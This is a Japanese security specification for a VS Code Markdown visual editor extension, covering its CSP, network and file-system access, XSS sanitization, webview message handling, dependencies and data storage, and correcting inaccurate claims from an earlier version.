

# Markdown Visual Editor — セキュリティ・機密情報取り扱い仕様書

| 項目 | 内容 |
|---|---|
| ドキュメントバージョン | 3.0 |
| 対象拡張機能 | Markdown Visual Editor v1.0.0 |
| 作成日 | 2026-04-10 |
| 最終レビュー日 | 2026-07-19 |
| レビュー対象ファイル | `src/extension.ts`, `src/markdownVisualEditorProvider.ts`, `media/editor.js`, `media/mermaid-visual-editor.js`, `media/diagram-editors.js`, `media/extra-diagram-editors.js`, `media/editor.css`, `package.json`, `esbuild.mjs` |

---

## 1. エグゼクティブサマリー

本拡張機能は VS Code 上で動作する Markdown ビジュアルエディタ（WYSIWYG）である。Mermaid ダイアグラム 21 種類（専用 GUI エディタ 7 種 + 汎用フォーム GUI エディタ 14 種、zenuml のみコード編集）、LaTeX 数式（KaTeX）、テーブルの GUI 編集、変更箇所のライブハイライトに対応する。テレメトリ・分析・認証機能は含まれていない。

拡張機能自身の Node.js 側・WebView 側のコードは、外部サーバーへ能動的に通信する API（`fetch`/`XMLHttpRequest`/`WebSocket`/`http(s)` モジュール等）を一切呼び出さない。**ただし、これは「一切のネットワーク往来が発生しない」ことを意味しない。** 具体的には:

- CSP の `img-src` に `https:` が含まれるため、開いた Markdown 文書がリモート画像 URL を参照していれば、レンダリング時に WebView がその URL へ実際に HTTPS 接続する
- リンクをクリックすると、`http(s):`/`mailto:` スキームは `vscode.env.openExternal()` で OS 既定のブラウザ／メールクライアントが起動する
- PDF 出力機能は、レンダリング済み HTML を一時ファイルとして書き出し、OS 既定のブラウザ（VS Code の CSP が及ばない別プロセス）で開く

詳細な評価は §3 を参照。

ファイルシステムへのアクセスも、以前は「開いているドキュメント 1 ファイルのみ」であったが、現在は次の書き込み経路が追加されている（詳細は §4）:

- 画像のドラッグ&ドロップ時、ドキュメントと同階層に `images/` ディレクトリを作成し画像ファイルを書き込む（`saveImage`）
- PDF 出力時、OS の一時フォルダ（`os.tmpdir()`）に HTML ファイルを書き出す（`exportPdf`）

いずれも任意パスへの書き込みではなく、対象は上記 2 種類の決まった場所に限定される。

> **本ドキュメントの v2.0（対象 v0.4.1）は「ファイルシステムアクセスは開いているドキュメント1ファイルのみ」「外部サーバーへの通信は一切行わない」「ホストが処理するメッセージは4種類のみ」等と記載していたが、v0.5.x で追加された機能（画像保存・PDF出力・undo/redo・resolveImage 等）により、これらは現在では不正確である。本改訂ではソースコードを再検証し、正確な記述に置き換えている。**

---

## 2. アーキテクチャ概要とデータフロー

```
┌──────────────────────────────────────────────────────┐
│  VS Code Host Process (Node.js)                      │
│  ┌────────────────────────────────┐                  │
│  │  extension.ts                  │                  │
│  │  markdownVisualEditorProvider  │                  │
│  │  ・CustomTextEditorProvider    │                  │
│  │  ・ドキュメント読み書き         │                  │
│  │  ・images/ への画像書き込み     │                  │
│  │  ・os.tmpdir() へのPDF用HTML   │                  │
│  │    書き込み + 既定ブラウザ起動  │                  │
│  └──────────┬─────────────────────┘                  │
│             │ postMessage (テキスト / Base64画像 /     │
│             │              レンダリング済みHTML)       │
│             │ メッセージ型: 9種(WebView→Host)          │
│             │           + 4種(Host→WebView)           │
│  ┌──────────▼─────────────────────┐                  │
│  │  WebView (Sandboxed)           │                  │
│  │  ・marked.js  (Markdownパース) │                  │
│  │  ・mermaid.js (SVGレンダリング) │                  │
│  │  ・katex.js   (数式レンダリング)│                  │
│  │  ・mermaid-visual-editor.js   │                  │
│  │    (フローチャートGUI)          │                  │
│  │  ・diagram-editors.js         │                  │
│  │    (クラス図/シーケンス図/      │                  │
│  │     マインドマップ/象限/ガント/  │                  │
│  │     ER図/テーブル エディタ)      │                  │
│  │  ・extra-diagram-editors.js   │                  │
│  │    (汎用フォームGUI 14種)       │                  │
│  │  ・editor.js  (UI制御・サニタイズ)│                │
│  │  ・editor.css (スタイル)       │                  │
│  │  ※ スクリプト発の能動的なネット  │                  │
│  │    ワークアクセス(fetch/XHR/    │                  │
│  │    WebSocket)はCSPで遮断。      │                  │
│  │    ただし img-src https: により │                  │
│  │    画像読み込みは許可(§3)       │                  │
│  └────────────────────────────────┘                  │
└──────────────────────────────────────────────────────┘
        │ PDF出力時のみ、CSPの外へ
        ▼
┌──────────────────────────────────────────────────────┐
│  OS 既定ブラウザ（VS Code / WebView とは別プロセス）    │
│  ・os.tmpdir() の一時HTMLを表示・window.print()        │
│  ・本拡張機能のCSP・nonce・sanitizeHtmlは適用されない    │
└──────────────────────────────────────────────────────┘
```

### 2.1 データフローの概要

| 方向 | メッセージ型 | 内容 | 処理 |
|---|---|---|---|
| Host → WebView | `update` | ドキュメント全文 | WebView内でパース・レンダリング |
| Host → WebView | `saveStatus` | dirty真偽 | 保存インジケータ更新 |
| Host → WebView | `imageResolved` | 解決済み画像URI | `` の src 差し替え |
| Host → WebView | `imageSaved` | 保存結果(相対パス/WebView URI/altテキスト) | Markdownへの挿入 |
| WebView → Host | `ready` | なし | 初回 `update`+`saveStatus` の送出をトリガ |
| WebView → Host | `edit` | 編集後の全文 | `WorkspaceEdit` でファイル全文置換 |
| WebView → Host | `openLink` | クリックされたリンクのhref | OS/VS Codeでリンクを開く |
| WebView → Host | `openAsText` | なし | 標準テキストエディタで開き直す |
| WebView → Host | `undo` / `redo` | なし | `executeCommand('undo'/'redo')` |
| WebView → Host | `resolveImage` | 相対画像パス | WebView表示用URIへ解決 |
| WebView → Host | `saveImage` | ファイル名 + Base64データ | `images/` へ画像保存 |
| WebView → Host | `exportPdf` | レンダリング済みHTML | 一時HTML書き出し + 既定ブラウザで開く |

各メッセージの入力検証・セキュリティ上の要点は §6 を参照。

---

## 3. ネットワーク通信に関する評価

> 旧版は本節を「ネットワーク通信の不在証明」としていたが、`img-src https:` と `vscode.env.openExternal()` の実使用が確認されたため、「一切通信しない」という断定は成立しない。本節は評価として書き直す。

### 3.1 拡張機能コードの外部通信 API 使用状況

| 検証項目 | 検証結果 | 備考 |
|---|---|---|
| `fetch()` の使用 | **なし** | 全ソースコード検索で確認済み |
| `XMLHttpRequest` の使用 | **なし** | 全ソースコード検索で確認済み |
| `WebSocket` の使用 | **なし** | 全ソースコード検索で確認済み |
| Node.js `http` / `https` モジュールの使用 | **なし** | Node.js側ソースで未import |
| Node.js `net` / `dgram` モジュールの使用 | **なし** | Node.js側ソースで未import |
| テレメトリ / Analytics SDK | **なし** | package.jsonの依存関係に不在 |
| 拡張機能自身からの外部API呼び出し | **なし** | URL文字列リテラルがコード内に不在 |
| `vscode.env.openExternal()` の使用 | **あり** | `openLink` ハンドラ。`http(s):` / `mailto:` の URI のみをこの API に渡し、OS既定のブラウザ／メールクライアントを起動する |
| CSP `img-src` 経由のリモート画像取得 | **あり（意図的に許可）** | `img-src ${cspSource} data: blob: https:` — 文書がリモート画像URLを含めば、レンダリング時にWebViewがそのURLへHTTPS接続する |
| PDF出力時の一時HTML / 外部ブラウザ | **VS CodeのCSPが及ばない別プロセス** | `handleExportPdf()` が `os.tmpdir()` にHTMLを書き出し、OS既定ブラウザで開く |

**結論:** 拡張機能のコードは能動的に外部へデータを送信するAPIを呼び出さないが、(1) 開いた文書にリモート画像URLが含まれていれば表示のためのHTTPS接続が発生し、(2) リンククリックで `openExternal` 経由のブラウザ/メールクライアント起動が発生し、(3) PDF出力機能は生成したHTMLをVS Codeの外（OS既定ブラウザ）で開く。「本拡張機能は一切通信を行わない」という表現は不正確である。機密文書利用時の含意は §12 を参照。

### 3.2 Content Security Policy (CSP) の実測値

WebView HTML には以下の CSP が設定されている（v1.0.0 時点で `src/markdownVisualEditorProvider.ts` の `getHtmlForWebview()` から実測）。

```
Content-Security-Policy:
  default-src 'none';
  img-src ${cspSource} data: blob: https:;
  style-src ${cspSource} 'unsafe-inline';
  script-src 'nonce-${nonce}' 'unsafe-eval';
  font-src ${cspSource};
  worker-src ${cspSource} blob:;
  connect-src ${cspSource};
```

**該当ファイル:** `src/markdownVisualEditorProvider.ts` — `getHtmlForWebview()` メソッド

| CSPディレクティブ | 設定値 | セキュリティ効果 |
|---|---|---|
| `default-src` | `'none'` | 明示的に許可されていないリソースはすべてブロック |
| `connect-src` | `${cspSource}` | `fetch` / `XMLHttpRequest` / `WebSocket` は WebView ローカルリソースへの接続のみ許可。外部URLへの接続は **ブロック** |
| `worker-src` | `${cspSource} blob:` | WebView ローカルリソースおよび blob URL からの Web Worker のみ許可（mermaid.js 内部処理用） |
| `script-src` | `'nonce-${nonce}' 'unsafe-eval'` | nonce付きスクリプトタグのみ実行可。インラインスクリプト不可 |
| `img-src` | `${cspSource} data: blob: https:` | **`https:` を許可しているため、`` タグ経由の外部画像読み込みは `connect-src` の制限を受けず実際に許可される。** Markdown文書に外部画像URLが書かれていれば、レンダリング時にそのURLへGETリクエストが発生し、画像ホストにアクセス元IP等が伝わる |
| `style-src` | `${cspSource} 'unsafe-inline'` | 拡張機能内CSSとインラインスタイルのみ許可 |
| `font-src` | `${cspSource}` | 拡張機能内フォント（KaTeXのwoff/woff2を含む）のみ |
| `frame-src` | 未指定（→ `'none'`） | iframe埋め込み不可 |
| `object-src` | 未指定（→ `'none'`） | プラグイン不可 |

> **重要:** `connect-src` は `${cspSource}` に限定されており、`fetch()` / `XMLHttpRequest` / `WebSocket` による外部URLへのデータ送信はCSP違反としてブロックされる。**ただしこの制限は `` 等のリソース読み込みには及ばない。** `img-src` に `https:` が含まれる以上、「本拡張機能は画像を含め一切のネットワークトラフィックを発生させない」とは言えない。拡張機能自身が能動的にデータを送信する経路（fetch/XHR/WebSocket）は塞がれているが、画像の受動的な読み込みは仕様として許可されている。

### 3.3 CSPにおける `'unsafe-eval'` の必要性と影響

| 項目 | 説明 |
|---|---|
| 存在理由 | mermaid.js（v11.14.x、`media/vendor/mermaid.min.js` に同梱）の内部処理で `new Function()` を使用するため |
| 影響範囲 | WebView内のJavaScript `eval()` / `new Function()` が実行可能になる |
| リスク評価 | **低リスク** — WebViewはサンドボックス内で動作し、実行されるスクリプトはnonce付きの信頼済みスクリプトのみ。外部スクリプト注入はCSPで防止されている |
| 代替手段 | mermaid.js がeval不要なビルドを提供した場合は除去可能 |

### 3.4 CSPにおける `'unsafe-inline'`（style-src）について

| 項目 | 説明 |
|---|---|
| 存在理由 | mermaid.jsがSVGレンダリング時にインラインstyle属性を生成するため |
| 影響範囲 | style属性・`<style>`タグによるCSS注入が可能 |
| リスク評価 | **低リスク** — CSSのみのデータ漏洩は`connect-src`がローカルリソースに制限されているため不可能。CSS Injection攻撃の最大リスクはUI偽装だが、WebViewサンドボックス内に限定される |

### 3.5 Mermaid `securityLevel: 'loose'` の設定理由と影響

| 項目 | 説明 |
|---|---|
| 設定値 | `securityLevel: 'loose'`（`media/editor.js` の複数箇所の `mermaid.initialize()` 呼び出しで一貫して指定） |
| 設定理由 | Mermaid ダイアグラムの HTML ラベル（リッチテキスト表示）を有効にするため。`'strict'` ではすべてのラベルがプレーンテキストに制限され、表現力が低下する |
| 影響範囲 | Mermaid コード内の HTML ラベルが HTML として解釈される |
| 内部防御 | mermaid.js（v11.14.x、ローカル同梱）は内部で DOMPurify を使用しており、`<script>` タグや `onerror` 等の危険な要素は自動的に除去される |
| リスク評価 | **低リスク** — 内部サニタイズ + CSP の nonce 制約 + `connect-src` のローカル制限により、仮に HTML が注入されても外部へのデータ送信やスクリプト実行は実質不可能 |
| 代替案 | `'strict'` に変更可能だが、HTML ラベルを使用する既存ドキュメントの表示が劣化する |

---

## 4. ファイルシステムアクセスの範囲

> **v0.4.1 時点の本ドキュメントは「アクセスは開いているドキュメント1ファイルのみ」と記載していたが、これは v0.5.x で追加された機能により誤りとなっている。** 本節は実装を再検証し、正確な書き込み範囲を記載する。

### 4.1 書き込み経路は3種類

| # | 経路 | トリガー | 書き込み先 | 実装 |
|---|---|---|---|---|
| 1 | 文書本体の編集 | `edit` メッセージ | 開いている `.md` ファイル（`document.uri`） | `WorkspaceEdit.replace()` → `vscode.workspace.applyEdit()` |
| 2 | 画像の保存 | `saveImage` メッセージ（画像D&D） | `<mdファイルと同階層>/images/<ファイル名>` | `vscode.workspace.fs.createDirectory()` + `vscode.workspace.fs.writeFile()` |
| 3 | PDF出力用HTML | `exportPdf` メッセージ | OS一時フォルダ（`os.tmpdir()`）配下 `mdve-pdf-<timestamp>-<name>.html` | `vscode.workspace.fs.writeFile()` |

いずれも**ユーザーが指定した任意のパス**への書き込みではなく、上記3箇所に限定される。ただし経路1・2は「開いているドキュメントと同階層」を書き込み先とするため、旧版の「開いているファイル1つのみ」という説明は成立しない。

### 4.2 検証項目

| 検証項目 | 検証結果 |
|---|---|
| `document.getText()` / `applyEdit()` で開いているドキュメントを読み書き | **あり**（唯一の"文書内容"読み書き経路） |
| `vscode.workspace.fs` の使用 | **あり** — `images/` ディレクトリ作成・画像書き込み（`saveImage`）、PDF用一時HTML書き込み（`exportPdf`）。上記2箇所に限定され、任意パスの読み書きAPIとしては使われていない |
| Node.js `fs` モジュールの直接使用 | **なし**（`vscode.workspace.fs` 経由に統一） |
| Node.js `path` / `os` モジュールの使用 | **あり** — `path.dirname/resolve/join/basename`、`os.tmpdir()`。パス**文字列の組み立て**のみでそれ自体はファイルI/Oを行わない |
| `vscode.workspace.openTextDocument()` の使用 | **なし**（ただし `openLink`/`openAsText` は `vscode.open`/`vscode.openWith` コマンド経由で他ファイルを開きうる。§6参照） |
| ワークスペース走査・検索（`findFiles` 等） | **なし** |
| 一時ファイル作成 | **あり** — PDF出力時に `os.tmpdir()` へHTMLを書き出す（§4.4） |
| クリップボードアクセス | **あり** — WebView側 `editor.js` がブロックの切り取り/コピー/貼り付けのため `navigator.clipboard.writeText()` / `readText()` を使用。OSクリップボードにのみ渡り、ネットワークには送信されない |

### 4.3 画像保存（`saveImage`）の入力検証

画像のドラッグ&ドロップ時、WebViewはドロップされたファイルをBase64化して `saveImage` メッセージでホストに送る。ホスト側 (`markdownVisualEditorProvider.ts`) の処理:

1. **ファイル名サニタイズ** (`sanitizeFileName()`): `\` `/` をすべて `_` に置換し（ディレクトリトラバーサル・パス区切り文字の除去）、`<>:"|?*` および制御文字 (`\x00-\x1f`) を `_` に置換。空になった場合は `image.png` にフォールバック。120文字を超える場合は拡張子を保持しつつ切り詰め
2. **ディレクトリ作成**: `<mdファイルの親フォルダ>/images/` を `vscode.workspace.fs.createDirectory()` で作成（既存なら無視）
3. **重複名回避** (`uniqueFileName()`): 同名ファイルが存在すれば `<base>-1.<ext>`, `<base>-2.<ext>` ... と最大999回まで連番を付与。それでも衝突する場合は `<base>-<timestamp>.<ext>` にフォールバック
4. **Base64デコード**: `Buffer.from(base64, 'base64')` で復元し `vscode.workspace.fs.writeFile()` で書き込み
5. 完了後 `imageSaved`（相対パス・WebView URI・altテキスト）をWebViewへ返し、`` としてMarkdownに挿入される

書き込み先はサニタイズ済みファイル名を `images/` ディレクトリに `joinPath` した結果に固定されており、`sanitizeFileName` が `\` `/` を除去するため `../` 等でディレクトリ外へ書き込むことはできない。

### 4.4 PDF出力（`exportPdf`）— サンドボックス外への出力

**これは本拡張機能の中で最も重要な信頼境界である。** WebView内でレンダリング済みのDOM（HTML文字列）がそのままホストへ送られ、ホストは以下を行う:

1. 相対 `` を md の階層基準で絶対 `file://` URI に書き換え（`data:`/`blob:`/`http(s):`/`file:`/`vscode-*`/`#` は据え置き）
2. `katex.min.css` / `editor.css` を `file://` 参照する、ライトモード固定・`@media print` ルール付きの単体HTMLを組み立て
3. `os.tmpdir()` に `mdve-pdf-<timestamp>-<name>.html` として書き出す
4. **OS既定のブラウザで開く**（`win32`: `cmd /c start`、`darwin`: `open`、`linux`: `xdg-open` を `child_process.spawn` で起動。失敗時は `vscode.env.openExternal` にフォールバック）
5. `load` イベントから600ms後に `window.print()` を自動実行

**この経路の帰結:**

- 生成されたHTMLは **VS CodeのWebView CSP・nonce・`sanitizeHtml()` によるサニタイズの外**で、通常のブラウザタブとして描画される。`exportPdf` で送られる `message.html` はホスト側で再検証されず、そのままファイルに書き込まれる
- ブラウザはfile://コンテキストで開かれるため、ブラウザ自身のセキュリティモデルが適用されるが、これは本拡張機能が制御する層ではない
- 一時HTMLファイルは `os.tmpdir()` に残り続ける（明示的な削除処理はない）。共有マシンでは他ユーザーが一時フォルダ経由で内容を読み取れる可能性がある
- 保存先（PDFの実ファイルパス）はブラウザの印刷ダイアログでユーザーが明示的に選ぶ必要があり、拡張機能側では制御しない

### 4.5 WebView内のリソースアクセス制限（`localResourceRoots`）

```typescript
// markdownVisualEditorProvider.ts — resolveCustomTextEditor()
const docDir = vscode.Uri.joinPath(document.uri, '..');
const workspaceFolder = vscode.workspace.getWorkspaceFolder(document.uri);
const roots: vscode.Uri[] = [
  vscode.Uri.joinPath(this.context.extensionUri, 'media'),
  docDir,
];
if (workspaceFolder) {
  roots.push(workspaceFolder.uri);
}
webviewPanel.webview.options = { enableScripts: true, localResourceRoots: roots };
```

**v0.4.1 時点は `media/` と `node_modules/` の2つのみに限定されていたが、現在は異なる。** 現在の `localResourceRoots` は次の3種類:

1. `<拡張機能インストールディレクトリ>/media`（バンドル済みライブラリ・CSS・JS）
2. **開いている `.md` ファイルの親フォルダ**（画像の相対パス表示・`resolveImage` のため）
3. **ワークスペースフォルダ**（開いていれば）

**含意:** WebViewは拡張機能の同梱資産だけでなく、**開いた文書のフォルダ配下、さらにワークスペースが開かれていればワークスペース全体**の資産（画像等）を `asWebviewUri()` 経由で読み込める。これは相対パスの画像を表示するための意図的な拡張であり、`vscode.workspace.fs` を通じた任意ファイル読み書きAPIをWebViewに渡しているわけではないが、**「拡張機能自体の `media/` のみに制限」という説明はもはや正確ではない**。WebViewから実際に読み込めるのはこの範囲内かつ限られたAPI（`resolveImage`・``タグ等）経由のみであり、任意のファイル内容をJavaScript側で自由に読み出せるAPIではない。

---

## 5. XSS（クロスサイトスクリプティング）対策

### 5.1 対策一覧

| 攻撃ベクター | 対策 | 実装箇所 |
|---|---|---|
| Markdownパース結果のHTML注入 | `sanitizeHtml()` によるDOMベースサニタイズ（denylist方式） | `media/editor.js:3140` — `renderBlockContent()` から呼び出し |
| ユーザー入力のHTML属性注入 | `escapeHtmlAttr()` による属性エスケープ | `media/editor.js` — `renderBlockContent()` |
| テキストコンテンツのエスケープ | `escapeHtml()` によるテキストエスケープ | `media/editor.js` — `startEditing()`, エラー表示等 |
| Mermaidダイアグラム経由のスクリプト注入 | `securityLevel: 'loose'` + 内部サニタイズ | `media/editor.js` — `mermaid.initialize()` |
| ダイアグラムエディタのユーザー入力 | DOM操作のみ（innerHTML不使用）、textContent/value経由 | `media/diagram-editors.js`, `media/extra-diagram-editors.js` — 各エディタクラス |
| インラインスクリプト挿入 | CSP `script-src` でnonce必須 | `src/markdownVisualEditorProvider.ts` |
| 外部スクリプト読み込み | CSP `script-src` でnonce必須 + `default-src 'none'` | `src/markdownVisualEditorProvider.ts` |
| PDF出力（`exportPdf`）先での再サニタイズ | **なし（既知の限界）** | `message.html` はWebViewで既にサニタイズ済みの想定だが、ホスト側では再検証していない。§4.4参照 |

### 5.2 HTMLサニタイズの詳細

`sanitizeHtml()` 関数（`media/editor.js:3140-3178`）で以下の危険要素・属性を除去している。

**除去される要素（タグ）：**
```
script, iframe, object, embed, form, input, textarea, select,
button, style, link, meta, base, applet, frame, frameset,
layer, ilayer, bgsound
```

**除去される属性：**
- すべての `on*` イベントハンドラ属性（`onclick`, `onerror`, `onload` 等）
- `javascript:` / `vbscript:` を含む `href`, `src`, `action`, `formaction`, `xlink:href` 属性
- `` 以外の要素の `data:` URI を含む `src` 属性（`` の `data:` は許可）

**方式に関する重要な注記:** `sanitizeHtml()` は既知の危険な要素・属性を**除去する denylist（除去リスト）方式**であり、DOMPurify のような**allowlist（許可リスト）方式**ではない。denylistに含まれない新種の攻撃ベクター（将来のブラウザ機能で危険性が判明した新しいタグ・属性、CSSベースの手法等）を網羅的に防げる保証はない。**CSP がこれを補う第2の防御層**として機能し、denylistをすり抜けた要素があっても `script-src` のnonce制約・`connect-src` の制限がスクリプト実行やデータ送信を妨げる。

### 5.3 Mermaid セキュリティ設定

```javascript
mermaid.initialize({
  securityLevel: 'loose',  // HTMLラベルを許可しつつ内部サニタイズ
  ...
});
```

`securityLevel: 'loose'` 設定により、Mermaid（v11.14.x）はHTMLラベルを許可するが、内部で危険なタグ・属性を自動除去する。さらにCSPのnonce制約と`connect-src`制限により、仮に内部サニタイズをすり抜けるHTMLが注入された場合でも、外部へのデータ送信や任意のスクリプト実行はブロックされる。

### 5.4 KaTeX の `trust: false`

数式レンダリングは `katex.renderToString(source, { throwOnError: false, output: 'html', strict: 'ignore', trust: false })` で行われる（`media/editor.js`）。KaTeXは `trust: true` にすると `\includegraphics` や `\href` 等で任意URLの読み込み・HTML属性挿入を許すコマンドが有効になり既知のXSSベクターとなるが、本拡張機能は明示的に `trust: false`（既定値）としており、これらの危険なコマンドは無効化されている。

### 5.5 Nonceベースのスクリプト制御

```html
<script nonce="${nonce}" src="${markedUri}"></script>
<script nonce="${nonce}" src="${mermaidUri}"></script>
<script nonce="${nonce}" src="${katexJsUri}"></script>
<script nonce="${nonce}" src="${visualEditorScriptUri}"></script>
<script nonce="${nonce}" src="${diagramEditorsScriptUri}"></script>
<script nonce="${nonce}" src="${extraDiagramEditorsScriptUri}"></script>
<script nonce="${nonce}" src="${editorScriptUri}"></script>
```

- nonceは `getNonce()` により32文字のランダム英数字列として毎回生成される
- nonce属性が一致しないスクリプトはCSPにより実行を拒否される
- カスタムエディタが開かれるたびにnonceが再生成されるため、予測・再利用は不可能

---

## 6. メッセージパッシングのセキュリティ

### 6.1 メッセージ型の一覧（v1.0.0 時点で9種類 + Host→WebView 4種類）

> **v0.4.1 時点の本ドキュメントは「ホストが処理するメッセージは以下4種類のみ」（`edit`/`ready`/`openLink`/`openAsText`）と記載していたが、現在は9種類に増えている。** 以下は `markdownVisualEditorProvider.ts` の `onDidReceiveMessage` ハンドラを完全に書き出したものである。

#### WebView → ホスト

| type | 処理 | 入力検証 / セキュリティ上の要点 |
|---|---|---|
| `edit` | `message.text` を `WorkspaceEdit.replace()` で開いているドキュメントの全文と置換 → `applyEdit()`。処理中は `isWebviewEdit=true` としてエコーバックを抑止し、完了後 `saveStatus` を返す | `message.text` はコードとして評価されず、対象は `document.uri` に固定。任意ファイルへの書き込み不可 |
| `ready` | 初回 `update`（全文）+ `saveStatus`（dirty真偽）を送出 | 入力なし |
| `openLink` | `href` をスキーム判定: `http(s):`/`mailto:` → `vscode.env.openExternal()`。それ以外のスキーム付きURI（`file:`・任意のカスタムスキーム等）→ `vscode.commands.executeCommand('vscode.open', uri)`。`#`始まりは無視。スキームなし（相対パス）→ `Uri.joinPath(document.uri, '..', href)` で md の階層基準で解決して `vscode.open` | **`http(s)`/`mailto` 以外の全スキームが `vscode.open` に渡る**（旧ドキュメントの「3スキームの前段ホワイトリスト」という説明は不正確）。相対パスの `../` によるパストラバーサルは禁止されておらず、文書フォルダ外のファイルを指すリンクでも `vscode.open` に渡る。ただし「開く」はVS Codeエディタでの表示でありコード実行には至らない。空文字列は無視 |
| `openAsText` | `vscode.commands.executeCommand('vscode.openWith', document.uri, 'default')` | 入力なし。対象は常に現在のドキュメント |
| `undo` / `redo` | `vscode.commands.executeCommand('undo'/'redo')` | 入力なし |
| `resolveImage` | `message.src` を `decodeURI()` → `Uri.joinPath(document.uri, '..', decoded)` → `asWebviewUri()` → `imageResolved` で返す | パストラバーサル自体は防いでいないが、生成されたURIは `localResourceRoots`（§4.5）の範囲外ではWebView側の読み込みがブロックされる。ホスト側キャッシュなし（キャッシュはWebView側 `_imageUriCache`） |
| `saveImage` | `name`/`dataBase64` を受け取り、ファイル名サニタイズ→`images/`ディレクトリ作成→重複名回避→base64デコードして書き込み→`imageSaved`（relPath/webviewUri/altText）を返す | 詳細は §4.3。`dataBase64` が空なら即エラー応答。書き込み先は `images/` 配下のサニタイズ済みファイル名に固定 |
| `exportPdf` | `message.html`（レンダリング済みDOMのHTML文字列）を受けて `handleExportPdf()` を実行 | 詳細は §4.4。ドキュメント未保存（パスなし）ならエラーメッセージのみでファイル書き込みしない。`message.html` はサニタイズされずそのままファイルへ書き込まれる |

※ 実際のメッセージ名は `resolveImage` / `imageResolved`。

#### ホスト → WebView

`update`（ドキュメント全文）/ `saveStatus`（dirty真偽）/ `imageResolved`（画像URI解決結果）/ `imageSaved`（画像保存結果）の4種類。

### 6.2 ドキュメント同期

- `onDidChangeTextDocument`: 自WebView発の編集(`isWebviewEdit`)でなければ `updateWebview()` で反映（外部エディタ・Git操作等の変更にも追従する）
- `onDidSaveTextDocument`: `saveStatus{dirty:false}` を送出
- 拡張機能は `document.save()` を自ら呼ばない（保存はVS Code標準フローに委ねる）

### 6.3 メッセージインジェクション耐性

- WebViewはVS Codeが管理するサンドボックス化されたWebView内で動作する
- `postMessage` はVS Code WebView APIを経由し、ホストは既知の `message.type` のみを `switch` 文で処理する。未知の型は無視される（デフォルトハンドラなし）
- `edit`/`exportPdf` の `message.text`/`message.html` は文字列としてのみ扱われ、`eval()` や動的コード実行には渡されない
- `openLink` のURIは `vscode.Uri.parse()` を通してから使用するが、渡せるスキームを厳密に制限してはいない（§6.1参照）。ただし到達するAPIは「VS Code/OSでファイルまたはURLを開く」ものであり、シェルコマンド実行には繋がらない
- `saveImage`/`exportPdf` の書き込み先パスはユーザー入力（ファイル名・HTML内容）に依存しないディレクトリ構造（`images/`・`os.tmpdir()`）に固定されている

### 6.4 InfiniteLoop / DoS 防御

- ホスト→WebView→ホストの循環更新は `isWebviewEdit` フラグで防止
- WebViewからの `edit` メッセージ処理中は `isWebviewEdit = true` となり、`onDidChangeTextDocument` のWebView再通知をスキップする

---

## 7. 依存パッケージのセキュリティ

### 7.1 ランタイム依存パッケージ

| パッケージ | バージョン(package.json) | 用途 | WebView内使用 | ネットワーク通信 |
|---|---|---|---|---|
| `marked` | ^4.3.0 | Markdownパース・HTML変換 | はい | **なし** |
| `mermaid` | ^11.14.0 | ダイアグラムSVGレンダリング | はい | **なし** |
| `katex` | ^0.17.0 | LaTeX数式レンダリング | はい | **なし** |

いずれもビルド時 (`esbuild.mjs` の `copyVendorAssets()`) に `media/vendor/` へコピーされ、`.vsix` に同梱される。実行時にnpmレジストリやCDNへアクセスすることはない。KaTeXは `katex.min.js` / `katex.min.css` に加え、`dist/fonts` の `woff`/`woff2` ファイルを `media/vendor/fonts/` にコピーする。**`.ttf` はビルド時に明示的に除外**される（`esbuild.mjs`: `if (f.endsWith('.ttf')) continue;` — Electron/モダンブラウザはwoff/woff2で足りるため）。

### 7.2 開発時のみ依存パッケージ

| パッケージ | バージョン | 用途 | ランタイム同梱 |
|---|---|---|---|
| `@types/vscode` | ^1.80.0 | TypeScript型定義 | **いいえ** |
| `esbuild` | ^0.19.0 | ビルドツール | **いいえ** |
| `typescript` | ^5.0.0 | コンパイラ | **いいえ** |
| `@vscode/vsce` | ^3.2.1 | VSIXパッケージツール | **いいえ** |

### 7.3 推移的依存パッケージの互換性制御 — 廃止済み

**v0.4.1 時点では `package.json` の `overrides` で `lru-cache` を `~10.4.3` に固定していたが、現在の `package.json` の `overrides` フィールドは空である。**

```json
"overrides": {
}
```

`lru-cache` の固定はNode.js 18.xビルド環境との互換性のために暫定的に導入されていたものであり、ビルド環境の更新に伴い解除された。現在は推移的依存のバージョンを固定していない。ビルド環境やCIのNode.jsバージョンが変わった場合は、`npm install` 時にビルドツールチェーン（`@vscode/vsce` 等）の推移的依存で問題が生じないか都度確認することを推奨する。

> **注意:** 旧版（v2.0）にあった「`lru-cache` を `~10.4.3` に固定している」という記述、およびそれに付随する既知の制限事項の行は、現状と一致しないため削除した。

### 7.4 推奨する運用時の対策

```bash
# 定期的な脆弱性チェック
npm audit

# 脆弱性の自動修正（互換性確認後に実行）
npm audit fix
```

依存パッケージに脆弱性が報告された場合は、`npm audit` で検出し速やかにバージョンを更新すること。

---

## 8. 機密情報の取り扱い

### 8.1 機密情報の保持状況

> 旧版は本節を「機密情報の非保持証明」とし、クリップボードと `localStorage` を「なし」としていたが、いずれも実装を再検証した結果**使用が確認された**ため修正する。

| 検証項目 | 結果 | 根拠 |
|---|---|---|
| 認証情報（ID/パスワード/トークン）の処理 | **なし** | 認証機能自体が存在しない |
| `vscode.SecretStorage` の使用 | **なし** | シークレットストレージ未使用 |
| `vscode.workspace.getConfiguration()` での機密値読み取り | **なし** | 設定機能自体が存在しない |
| 拡張機能の `globalState` / `workspaceState` への書き込み | **なし** | 状態永続化を行わない |
| WebViewの `vscode.setState()`/`getState()` | **あり（限定的）** | テーマ（light/dark/auto）の永続化のみに使用（`editor.js`）。ドキュメント内容やユーザーデータは含まない。VS Codeが管理するper-webviewの状態であり、拡張機能の`globalState`/`workspaceState`とは別物 |
| `localStorage` の使用（WebView内） | **あり（限定的）** | `extra-diagram-editors.js` の `mountOnboarding`（オンボーディングツールチップの表示済みフラグ、キー `mve.onboarding.dismissed.<種別>`、値は `'1'` のみ）。ドキュメント内容やユーザーデータは含まない |
| `sessionStorage` / `IndexedDB` の使用 | **なし** | |
| Cookie の設定・読み取り | **なし** | Cookie操作コード不在 |
| 環境変数 (`process.env`) の読み取り | **なし** | 環境変数アクセス不在 |
| ログへの機密情報出力 | **なし** | `console.warn` による初期化失敗メッセージのみ |
| 一時ファイル・キャッシュファイルの作成 | **あり** | PDF出力時に `os.tmpdir()` へレンダリング済みHTMLを書き出す（§4.4）。**ドキュメントの内容（テキスト・画像パス）を含む** |
